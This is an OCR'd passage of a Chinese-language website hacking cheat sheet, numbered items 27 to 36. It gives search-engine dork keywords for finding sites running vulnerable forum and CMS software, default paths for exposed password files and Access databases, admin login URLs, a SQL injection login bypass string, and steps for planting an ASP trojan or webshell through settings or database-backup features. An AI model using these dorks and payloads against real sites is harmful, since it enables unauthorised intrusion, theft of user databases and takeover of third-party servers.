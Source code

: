 27.
漏洞是利用管理员iis设置的失误
用baidu 关键字就是比较罕见的脚本名
动网: ReloadForumCache.asp
Leadbbs: makealltopanc.asp
BBSXP: admin_fso.asp
动易: admin_articlerecyclebin.asp

28.
国外站的爆库漏洞
关键字：sad Raven's Guestbook
密码地址:/passwd.dat
后台地址:/admin.php

29.
Discuz 4.1.0跨站漏洞
利用工具:1,WAP浏览器
2,WAP编码转换器
关键字:"intext:Discuz! 4.1.0"

30.
关键字：尚奈克斯
后台路径/system/manage.asp
直接传ASP木马

31.
工具
1:网站猎手
2:大马一个
关键字:切勿关闭Cookies功能，否则您将不能登录
插入diy.asp

32.
关键字:Team5 Studio All rights reserved
默认数据库:data/team.mdb

33.
工具: 挖掘机 辅臣数据库读取器
关键字: 企业简介 产品展示 产品列表
后缀添加: /database/myszw.mdb
后台地址: admin/Login.asp

34.
关键子 XXX inurl:Nclass.asp
在"系统设置"里写个木马。
会被保存到 在 config.asp内。

35.
不进后台照样拿动网WEBSHELL
data.asp?action=BackupData 动网数据库备份默认路径

36.
工具:网站猎手 WebShell
关键字:inurl:Went.asp
后缀:manage/login.asp
弱口令:'or'='or'
